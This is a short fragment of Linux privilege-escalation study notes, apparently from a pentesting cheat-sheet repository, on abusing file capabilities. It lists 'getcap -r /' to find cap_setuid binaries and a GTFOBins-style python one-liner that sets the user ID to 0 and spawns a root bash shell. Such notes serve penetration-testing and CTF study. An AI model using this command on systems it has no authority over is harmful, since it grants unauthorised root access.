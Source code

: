 Identification

getcap -r / 2>/dev/null


![](/Linux-Privilege-Notes/images/capabilities.png)


cap_setuid+ep 

ep for capabilities

Exploitation

GTFO

/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
